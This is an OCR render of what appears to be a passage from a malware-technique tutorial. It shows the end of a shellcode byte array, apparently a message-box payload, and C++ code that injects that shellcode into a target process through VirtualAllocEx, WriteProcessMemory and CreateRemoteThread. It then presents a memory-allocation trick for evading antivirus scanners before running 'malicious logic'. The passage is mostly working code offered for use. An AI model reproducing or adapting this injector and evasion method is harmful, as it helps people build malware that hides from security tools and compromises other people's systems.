 ```cpp
    "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
    "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
    "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
    "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
    "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
    "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
    "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
    "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
    "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
    "\x2e\x2e\x5e\x3d\x00";

  HANDLE ph; // process handle
  HANDLE rt; // remote thread
  PVOID rb; // remote buffer

  // parse process ID
  printf("PID: %i", atoi(argv[1]));
  ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, 
  DWORD(atoi(argv[1])));

  // allocate memory buffer for remote process
  rb = VirtualAllocEx(ph, NULL, sizeof(my_payload), 
  (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);

  // "copy" data between processes
  WriteProcessMemory(ph, rb, my_payload, 
  sizeof(my_payload), NULL);

  // our process start new thread
  rt = CreateRemoteThread(ph, NULL, 0, 
  (LPTHREAD_START_ROUTINE)rb, 
  NULL, 0, NULL);
  CloseHandle(ph);
  return 0;
}

```

This is classic variant, we define payload, allocate memory, copy into the new buffer, and then execute it.    

The main limit with AV scanner is the amount of time they can spend on each file. During a regular system scan, AV will have to analyze thousands of files. It just cannot spend too much time or power on a peculiar one. One of the "classic" AV evasion trick besides payload encryption: we just allocate and fill `100MB` of memory:    

```cpp
char *mem = NULL;
mem = (char *) malloc(100000000);
if (mem != NULL) {
  memset(mem, 00, 100000000);
  free(mem);
  //... run our malicious logic
}
```
